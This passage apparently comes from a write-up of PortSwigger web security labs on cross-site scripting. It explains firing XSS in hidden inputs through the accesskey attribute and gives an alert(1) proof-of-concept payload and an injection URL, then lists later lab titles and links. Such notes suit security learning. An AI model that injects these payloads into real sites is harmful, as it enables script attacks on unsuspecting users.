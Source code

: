 It is possible to induce a user into triggering XSS payloads in **unexploitable** tags such as : `input hidden`, `link`, `canonical` by using the `accesskey` attribute.

This requires **user interaction**, as the victim needs to press the required key to fire the payload.

Example:

`<input type="hidden" accesskey="X" onclick="alert(1)">`

**Solution**

On macOS, `CTRL+OPTION+X` will trigger the `onclick` event

```
https://<burp_instance_url>/?%27onclick=%27alert(1)%27accesskey=%27X
```

### Lab 20 - Reflected XSS into a JavaScript string with single quote and backslash escaped

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped

### Lab 21 - Reflected XSS into a JavaScript string with angle brackets HTML encoded

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded

### Lab 22 - Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped

### Lab 23 - Reflected XSS in a JavaScript URL with some characters blocked

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked

### Lab 24 - Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

### Lab 25 - Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped
